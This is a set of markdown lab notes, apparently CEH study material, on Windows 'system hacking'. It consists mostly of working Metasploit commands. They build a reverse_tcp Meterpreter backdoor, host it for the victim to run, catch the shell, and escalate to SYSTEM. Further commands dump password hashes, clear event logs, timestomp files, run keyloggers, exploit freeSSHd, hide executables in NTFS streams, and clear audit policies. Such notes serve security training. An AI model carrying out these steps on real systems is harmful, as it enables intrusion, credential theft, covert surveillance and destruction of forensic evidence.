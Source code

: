 ## System Hacking

1. Dumping and Cracking SAM Hashes - pwdump and ophcrack
SAM = security account manager database file in windows
uses LM and NTLM hash

```
# username and pasword has for the machine in a file
pwdump.exe > c:/hash.txt

load this file to ophcrack --> time to crack depends on complexity of password --> only alphanumeric
```

2. Cracking - rainbow tables
pre-calculate hash and create table --> compare new hash to quickly find plaintext

3. Cracking - L0phtCrack

4. Escalating Priviledge - using client side vulnerability
kali
```bash
service postgresql start
service metasploit start

# launch msfconsole
msfconsole

#create exe file in desktop
msf > msfpayload windows/meterpreter/reverse_tcp LHOST=172.17.19.67 X > Desktop/Exploit.exe

# new folder with appropriate permission
mkdir /var/www/share
chmod -R 755 /var/www/share
chown -R www-data:www-data /var/www/share

service apache2 start

cp /root/Desktop/Exploit.exe /var/www/share/

# create msfconsole handler
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
set LHOST 172.17.19.67

# start handler
exploit -j -z

```

from windows
```
http://172.17.19.67/share
download and run Exploit.exe
```

kali
```
# metasploit session should not be open in kali

#now go into meterpreter shell
sessions -i 1

#current user
getuid
>>> ceh\administrator

#require elevated priviledge

#get windows password hash
run hashdump

#clear windows event
clearev

# unrestricted access to system using Service -named pipe impersonation
getsystem -t 1

getuid
>>> nt authority\system

# can run hashdump now
run hashdump 

```

5. exploiting freeSSHd

install freeSSHd in windows and configure on port 45


kali
```
service postgresql start
service metasploit start

msfconsole

use exploit/windows/ssh/freesshd_authbypass


#show available exploits
show options

set RHOST 172.17.19.61
set RPORT 45

# establish meterpreter session
exploit

# possible to capture screenshot, keystroke logging, etc

```

6. hacking windows 8.1 with metasploit and post-exploitation using meterpreter

start postgresql, metasploit
```
msfconsole

msfpayload windows/meterpreter/reverse_tcp LHOST=172.17.19.67 X > Desktop/Backdoor.exe

ls -la /var/www/ | grep share

service apache2 start

cp /root/Desktop/Backdoor.exe /var/www/share/

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
set LHOST 172.17.19.67

show options

exploit -j -z
```

windows --> run backdoor.exe

kali
```
sessions -i

sessions -i 1

# can traverse through this user profile
sysinfo
pwd
ls
cat filename.txt

# show file last access
timestomp filename.txt -v

# change modified timestamp
timestomp filename.txt -m "06/15/2012 12:57:21"

# change created timestamp
timestomp filename.txt -c "06/15/2012 12:57:21"

# change accessed timestamp
timestomp filename.txt -a "06/15/2012 12:57:21"

# change entry modfied timestamp
timestomp filename.txt -e "06/15/2012 12:57:21"

# download
download firefox.exe

# search
search -f pagefile.sys

# key sniffer
keyscan_start
keyscan_dump

#screenshot
screenshot

shutdown
```

7. System monitoring using RemoteExec

```
remote exe --> remote job --> new remote job --> file execution
# file to execute
rcrack_gui.exe

```

8. User System Monitoring and surveillance using spytech spyAgent
```
install spytech spyagent in remote computer in stealth mode
```

9. Web Activity Monitoring and Recording with Power Spy 2014


continuous screenshots
keystroke
all application opened
all the documents created
clipboard content
audio


10. hiding Files using NTFS Streams

```
#hide file.exe inside file1.txt
#cmd prompt
>type c:\path\file.exe > c:\path\file2.txt:file.exe

# unhide the file with different name
>mklink backdoor.exe file1.txt:file.exe

#execute hidden file
>backdoor
```

11. find hidden files using ADS Spy
 scan computer to find files with hidden files

12. hiding files using white space steganography (snow)

```
create test1.txt with white space
#hiding with password magic
snow -C -m "my bank account number is 12345" -p "magic" test1.txt test2.txt
#viewing hidden
snow -C -p "magic" test2.txt
```

13. image steganography using openStego
```
hide file inside image and retrieve file
```

14. image steganography using quick stego
```
hide text inside image and retrieve text
```

15. viewing, editing and clearing audit policies using auditpol
```
#view all audit policies
auditpol /get /category:*

#set pollicies
auditpol /set /category:"system","account logon" /success:enable /failure:enable

#clear audit 
auditpol /clear /y
```






